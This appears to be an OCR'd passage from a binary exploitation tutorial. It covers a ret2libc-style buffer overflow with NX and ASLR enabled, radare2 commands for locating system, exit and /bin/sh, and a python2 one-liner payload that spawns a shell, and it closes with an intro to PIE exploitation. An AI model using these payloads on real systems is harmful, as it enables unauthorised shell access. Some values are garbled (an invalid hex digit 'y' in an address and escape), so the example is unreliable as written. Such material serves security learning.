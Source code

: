 ```python
		print "Trying: " + trials subprocess.call(["[path-to-binary]","-i", "3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110", bofshell])
```

#### RET2GOT: BOF when NX and ASLR protections are enabled. \[Radare2]

We follow the same methodology as above but using radare2 we can find the addresses of \[system] \[exit] and \[/bin/sh]

We use `aa` to analyze the binary and `afl` to list the functions in the binary.

```
aa
fs imports; f
fs strings; f
```

* `afl` or `fs imports;f` are to display functions
* `iz` or `fs strings; f` are to display strings
* `ie` and `iM` commands are to find the entry point address and main function address locations respectively.
* Additionally in Radare2, you can find address locations of a specific string by typing `/ keyword`
* Use `V` to enter visual mode and `q` to quit
* If you wish to select a function and display its disassembly then simply type `s sym.functionname` and then `pdf` to display its disassembly If you couldn't find the address of \[/bin/sh] using \[radar2] then you can issue the below command on the target machine

```
strings -a -t x /lib32/libc.so.6 | grep /bin/sh
```

Lastly your payload is a oneliner. Make sure to know how many bytes are needed to cause segmentation fault. In the below example it's \[600]. Also my values were

**system address = 0x040584y8** **exit address =0x090287b0** **/bin/sh = 0x010293d4** The final payload:

```
$(python2 -c 'print("A"*600+"\xy8\x84\x05\x04"+"\xb0\x87\x02\x09"+"\xd4\x93\x02\x01")')
```

You can pass it as an argument to the binary.

#### Exploiting BOF When PIE is enabled

PIE stands for Position Independent Executable, which means that every time you run the file it gets loaded into a different memory address. This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.

The strategy of exploiting such binaries relies on finding the offsets/locations of different parts/variables/functions that we want to control. Usually we want to control a function/variable so we try to find the distance between the offset of this variable and another variable that's controlled by user input.

This can be done using any debugger such as gdb.
